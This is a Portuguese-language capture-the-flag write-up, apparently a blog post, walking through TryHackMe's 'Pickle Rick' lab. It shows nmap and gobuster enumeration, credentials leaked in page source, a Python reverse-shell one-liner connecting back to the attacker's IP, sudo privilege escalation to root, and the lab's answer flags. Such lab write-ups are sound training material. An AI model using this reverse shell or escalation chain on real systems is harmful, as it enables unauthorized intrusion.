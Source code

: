 ```yaml
---
description: CTF do TryhackME como fiz e anotações.
title: TryHackMe - Pickle Rick - Fácil
date: 2024-01-13 11:47:00 +/-0300
categories: [CTF, TryHackMe]
tags: [ctf, tryhackme, linux, suid, web, facil]     # TAG names should always be lowercase
show_image_post: true
---
```


![piclericky](/assets/img/pickrick3.jpg){: w="100" h="100" .left}

---
# CTF - Pickle Rick
---
---
## Enumeração

### nmap 

```shell
sudo nmap -sS -Pn -n --disable-arp-ping --stats-every=7s -sVC 10.10.13.28 -T4

tarting Nmap 7.94SVN ( https://nmap.org ) at 2024-01-11 01:22 EST
Stats: 0:00:07 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 01:22 (0:00:00 remaining)
Stats: 0:00:14 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 50.00% done; ETC: 01:22 (0:00:06 remaining)
Stats: 0:00:21 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 93.75% done; ETC: 01:22 (0:00:00 remaining)
Nmap scan report for 10.10.13.28
Host is up (0.25s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 58:a9:c6:8e:d9:b8:20:47:8c:f1:e4:48:64:d2:56:85 (RSA)
|   256 e1:42:f1:cb:9f:a7:77:6c:04:06:4a:92:bf:0f:0c:e2 (ECDSA)
|_  256 e8:61:39:6b:3e:38:4d:ec:bd:81:6f:73:4c:c1:31:ca (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.63 seconds

```
{: .nolineno }



É um website

Encontrado no código fonte da paginal inicial

```text
<!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
{: .nolineno }
### gobuster

```shell
gobuster dir -u http://10.10.13.28 -t 100  -w  /usr/share/wordlists/dirb/big.txt -r --no-error -e  -x php,txt,old

==============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://10.10.13.28/.php                 (Status: 403) [Size: 290]
http://10.10.13.28/.htpasswd.php        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd            (Status: 403) [Size: 295]
http://10.10.13.28/.hta.old             (Status: 403) [Size: 294]
http://10.10.13.28/.hta                 (Status: 403) [Size: 290]
http://10.10.13.28/.hta.txt             (Status: 403) [Size: 294]
http://10.10.13.28/.htaccess.php        (Status: 403) [Size: 299]
http://10.10.13.28/.htaccess            (Status: 403) [Size: 295]
http://10.10.13.28/.hta.php             (Status: 403) [Size: 294]
http://10.10.13.28/.htaccess.old        (Status: 403) [Size: 299]
http://10.10.13.28/.htaccess.txt        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd.old        (Status: 403) [Size: 299]
http://10.10.13.28/.htpasswd.txt        (Status: 403) [Size: 299]
http://10.10.13.28/assets               (Status: 200) [Size: 2190]
http://10.10.13.28/denied.php           (Status: 200) [Size: 882]
http://10.10.13.28/index.html           (Status: 200) [Size: 1062]
http://10.10.13.28/login.php            (Status: 200) [Size: 882]
http://10.10.13.28/portal.php           (Status: 200) [Size: 882]
http://10.10.13.28/robots.txt           (Status: 200) [Size: 17]
http://10.10.13.28/robots.txt           (Status: 200) [Size: 17]
http://10.10.13.28/server-status        (Status: 403) [Size: 299]
Progress: 18456 / 18460 (99.98%)
```
{: .nolineno }
login page encontrada http://10.10.13.28/login.php


```text
robots.txt

Wubbalubbadubdub
```
{: .nolineno }
index of em /assets contendo apenas algumas imagens e scripts

![indexoff](/assets/img/picklerick1.png)

## Acesso

login efetuado com sucesso 

Login: R1ckRul3s
Senha: Wubbalubbadubdub

http://10.10.13.28/portal.php

WebShell após o login

![webshell](/assets/img/picklerick2.png)

Permitido executar alguns comandos,os outro menus são bloqueados e direcionado para
http://10.10.13.28/denied.php

### Reverse Shell

Listei necat e executei shell reverse  nesta pagina

```python
export RHOST="10.6.125.125";export RPORT=4443;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```
{: .nolineno }

Primeira flag encontrada

```shell
www-data@ip-10-10-165-48:/var/www/html$ cat Sup3rS3cretPickl3Ingred.txt
cat Sup3rS3cretPickl3Ingred.txt
mr. meeseek hair
```
{: .nolineno }
## Escalação de Privilégio

```shell
sudo -l
Matching Defaults entries for www-data on
    ip-10-10-165-48.eu-west-1.compute.internal:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on
        ip-10-10-165-48.eu-west-1.compute.internal:
    (ALL) NOPASSWD: ALL
www-data@ip-10-10-165-48:/home/rick$ sudo /bin/bash
sudo /bin/bash
root@ip-10-10-165-48:/home/rick# 
```
{: .nolineno }
### Segunda Flag

```shell
root@ip-10-10-165-48:/home/rick# cat "second ingredients"
cat "second ingredients"
1 jerry tear
root@ip-10-10-165-48:/home/rick# 
```
{: .nolineno }
### Terceira Flag

```shell
root@ip-10-10-165-48:~# cat 3rd.txt
cat 3rd.txt
3rd ingredients: fleeb juice
root@ip-10-10-165-48:~# 
```
{: .nolineno }